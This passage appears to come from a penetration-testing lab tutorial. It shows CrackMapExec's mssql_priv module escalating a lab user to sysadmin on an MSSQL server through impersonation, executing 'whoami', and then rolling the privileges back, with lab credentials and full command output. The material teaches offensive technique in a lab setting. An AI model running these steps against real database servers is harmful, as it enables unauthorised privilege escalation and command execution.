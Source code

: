 ```shell-session
$ crackmapexec mssql 10.129.203.121 -u robert -p Inlanefreight01! -M mssql_priv -o ACTION=privesc

MSSQL       10.129.203.121  1433   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:inlanefreight.htb)
MSSQL       10.129.203.121  1433   DC01             [+] inlanefreight.htb\robert:Inlanefreight01! 
MSSQL_PR... 10.129.203.121  1433   DC01             [+] INLANEFREIGHT\robert can impersonate julio (sysadmin)
MSSQL_PR... 10.129.203.121  1433   DC01             [+] INLANEFREIGHT\robert is now a sysadmin! (Pwn3d!)
```

As a sysadmin user, we can now execute commands. Let's do this and then roll back our privileges to their original state:

### **Executing Commands and Rolling Back Privileges**

```shell-session
$ crackmapexec mssql 10.129.203.121 -u robert -p Inlanefreight01! -x whoami

MSSQL       10.129.203.121  1433   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:inlanefreight.htb)
MSSQL       10.129.203.121  1433   DC01             [+] inlanefreight.htb\robert:Inlanefreight01! (Pwn3d!)
MSSQL       10.129.203.121  1433   DC01             [+] Executed command via mssqlexec
MSSQL       10.129.203.121  1433   DC01             --------------------------------------------------------------------------------
MSSQL       10.129.203.121  1433   DC01             inlanefreight\svc_mssql
```

```shell-session
$ crackmapexec mssql 10.129.203.121 -u robert -p Inlanefreight01! -M mssql_priv -o ACTION=rollback

MSSQL       10.129.203.121  1433   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:inlanefreight.htb)
MSSQL       10.129.203.121  1433   DC01             [+] inlanefreight.htb\robert:Inlanefreight01! (Pwn3d!)
MSSQL_PR... 10.129.203.121  1433   DC01             [+] sysadmin role removed
```

```shell-session
$ crackmapexec mssql 10.129.203.121 -u robert -p Inlanefreight01! -x whoami

MSSQL       10.129.203.121  1433   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:inlanefreight.htb)
MSSQL       10.129.203.121  1433   DC01             [+] inlanefreight.htb\robert:Inlanefreight01!
```

{% hint style="info" %}
**Note:** To test the module with the users we have, it is necessary to try them one by one since the multi-user functionality with `--no-bruteforce` and `--continue-on-success` does not support testing a module with multiple accounts at the same time.
{% endhint %}

